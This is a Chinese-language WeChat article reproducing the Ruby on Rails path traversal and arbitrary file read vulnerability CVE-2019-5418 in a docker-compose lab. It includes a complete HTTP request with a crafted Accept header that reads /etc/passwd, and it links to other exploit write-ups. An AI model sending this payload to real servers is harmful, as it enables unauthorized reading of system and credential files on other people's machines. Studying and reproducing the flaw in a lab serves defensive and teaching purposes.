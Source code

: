 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/S7GaIAVLBkT8eX2_S1x0TA)

![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif) 

**Ruby on Rails 路径穿越与任意文件读取漏洞（CVE-2019-5418）**

在控制器中通过 `render file` 形式来渲染应用之外的视图，且会根据用户传入的 Accept 头来确定文件具体位置。

我们通过传入

`Accept: ../../../../../../../../etc/passwd{{` 头来构成构造路径穿越漏洞，读取任意文件。

  
**参考链接：**  
- https://groups.google.com/forum/ ... ecurity/pFRKI96Sm8Q  
- https://xz.aliyun.com/t/4448

**环境搭建**  
执行如下命令编译及启动

Rail On Rails 5.2.2：docker-compose build/docker-compose up -d

 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLibPc08bfpKXBZyvPZbnHibOCt1PkxvpZwgybg2pNDYmTfQOcHvWibnBq87ectgxjSiaPySLa24fJjUYg/640?wx_fmt=png)   

环境启动后，访问 `http://your-ip:3000` 即可看到 Ruby on Rails 的欢迎页面。

 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLibPc08bfpKXBZyvPZbnHibOCdxsT9WOFq6HibqZ0oDBVicSQXY0raLfffvzic7L6DLsjzJq3DqfESPMvg/640?wx_fmt=png) 

**漏洞复现**  
访问 `http://your-ip:3000/robots` 可见，正常的 robots.txt 文件被读取出来。

  
 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLibPc08bfpKXBZyvPZbnHibOCmgpUoy7pD3jkWbNjEHibNIARRnXID70EJZfNJQA2PrIynib40xEib7bcQ/640?wx_fmt=png)   

利用漏洞，发送如下数据包，读取 `/etc/passwd`：  
```  
GET /robots HTTP/1.1  
Host: your-ip:3000  
Accept-Encoding: gzip, deflate  
Accept: ../../../../../../../../etc/passwd{{  
Accept-Language: en  
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)  
Connection: close  
```  
成功读取：

![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLibPc08bfpKXBZyvPZbnHibOCibdoIHUekemknILyibaf85d1HtsuVaibSAeJj0GPICrvWYwR5zCGVxXeQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/3xxicXNlTXLicjiasf4mjVyxw4RbQt9odm9nxs9434icI9TG8AXHjS3Btc6nTWgSPGkvvXMb7jzFUTbWP7TKu6EJ6g/640?wx_fmt=jpeg)

推荐文章 ++++

![](https://mmbiz.qpic.cn/mmbiz_jpg/US10Gcd0tQFGib3mCxJr4oMx1yp1ExzTETemWvK6Zkd7tVl23CVBppz63sRECqYNkQsonScb65VaG9yU2YJibxNA/640?wx_fmt=jpeg)

*[CVE-2019-11043 PHP 远程代码执行](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650496935&idx=4&sn=4488fdba40fedf0b8aec93f7e603a5ed&chksm=83ba3a43b4cdb3556d0df15556c34b706ce2aa63685a0915cabd1a2d283c0f8292953cabc489&scene=21#wechat_redirect)  

*[Apache Unomi 远程表达式代码执行（CVE-2020-13942）漏洞复现](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650496854&idx=3&sn=cfab1fa1361e59ef33e869eb63d5d8f7&chksm=83ba3ab2b4cdb3a415463e08b5078e2a3a4db5718d1f5179670878a1ef6edb586eca822e1ed3&scene=21#wechat_redirect)

*[Webmin 远程命令执行（CVE-2019-15107）漏洞利用](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650491765&idx=4&sn=b26aaffa37cce299469b16cde933e216&chksm=83ba2e91b4cda7879bb7577294dbe08b853d85ee6879eb529a0e3a58ef04f8f424d3f4cd3a1b&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0FWIDRa9Kwh52ibXkf9AAkntMYBpLvaibEiaVibzNO1jiaVV7eSibPuMU3mZfCK8fWz6LicAAzHOM8bZUw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/NZycfjXibQzlug4f7dWSUNbmSAia9VeEY0umcbm5fPmqdHj2d12xlsic4wefHeHYJsxjlaMSJKHAJxHnr1S24t5DQ/640?wx_fmt=gif)